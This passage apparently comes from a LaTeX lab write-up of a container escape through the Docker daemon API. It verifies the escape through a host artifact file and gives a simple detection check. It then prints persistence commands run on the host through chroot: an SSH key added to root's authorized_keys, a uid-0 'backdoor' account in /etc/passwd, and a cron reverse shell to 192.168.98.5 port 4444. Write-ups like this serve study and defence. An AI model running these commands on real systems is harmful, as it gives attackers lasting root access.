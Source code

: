 \vspace{0.3cm}

\section{Step 7 -- Writing to the Host Filesystem}

The escape is verified by checking for the artifact file on VM1 from outside any container:

\begin{lstlisting}[language=bash]
cat /tmp/escaped.txt
# pwned
\end{lstlisting}

The presence of this file on the real host filesystem proves that a process which started inside a container wrote data to the host. The container's mount namespace was bypassed not by breaking any isolation primitive, but by using the daemon API to create a new container that was intentionally given access to the host filesystem.

The \texttt{detect.sh} script checks for this artifact as a first-order indicator of compromise:

\begin{lstlisting}[language=bash]
[ -f /tmp/escaped.txt ] && echo "HOST IS COMPROMISED"
\end{lstlisting}

The same mechanism that wrote the demonstration file can be used for persistent, high-impact actions on the host:

\begin{lstlisting}[language=bash]
# Add an SSH public key for persistent access
chroot /hostfs sh -c 'echo "<pubkey>" >> /root/.ssh/authorized_keys'

# Add a backdoor root user to /etc/passwd
chroot /hostfs sh -c \
  'echo "backdoor:x:0:0::/root:/bin/bash" >> /etc/passwd'

# Install a cron-based reverse shell for persistence
chroot /hostfs sh -c \
  'echo "* * * * * root bash -i >& /dev/tcp/192.168.98.5/4444 0>&1" \
  >> /etc/crontab'
\end{lstlisting}

Each of these operations is structurally identical to the proof-of-concept write. The host is fully compromised.

\vspace{0.3cm}

\section{Kernel-Level View of the Escape}

